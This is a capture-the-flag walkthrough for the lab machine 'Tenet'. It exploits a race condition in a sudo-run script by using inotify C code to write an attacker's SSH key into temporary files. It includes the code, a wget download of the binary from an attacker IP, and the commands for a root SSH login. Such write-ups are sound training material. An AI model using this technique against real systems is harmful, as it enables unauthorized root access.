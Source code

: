 # Alternative way to exploit Tenet

## Privilege Escalation to root

The **Race Condition** vulnerability can be done more reliably instead of using Brute-Force until the correct time was hit.

The Linux subsystem **inotify** and [this example code](https://linuxhint.com/inotify_api_c_language/) will be used to do something upon changes on the filesystem.

Adding five lines after line 72:
```c
// (...)
else {
        printf( "The file %s was created.\n", event->name );
        FILE *fptr;
        char fullname[] = "/tmp/";
        strcat(fullname, event->name);
        fptr = fopen(fullname, "w");
        fprintf(fptr, "ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQDd7S9(...)\n");
        fclose(fptr);
      }
// (...)
```

Compiling the code:
```
gcc inotify.c -o inotify
```

Downloading the binary to the box with the user _neil_:
```
wget 10.10.14.4/8000/inotify
```

Changing permissions:
```
chmod +x inotify
```

Executing the binary:
```
./inotify /tmp
```

While the binary runs in the background in a loop, we can execute _enableSSH.sh_:
```
sudo /usr/local/bin/enableSSH.sh
```

The _inotify_ binary will watch the _/tmp_ directory and modify the contents of any created file in there:
```
Watching : /tmp
The file ssh-GSH7PzPd was created.
```

Now it is possible to SSH into the box as root!
```
ssh -i tenet.key 10.10.10.223
```
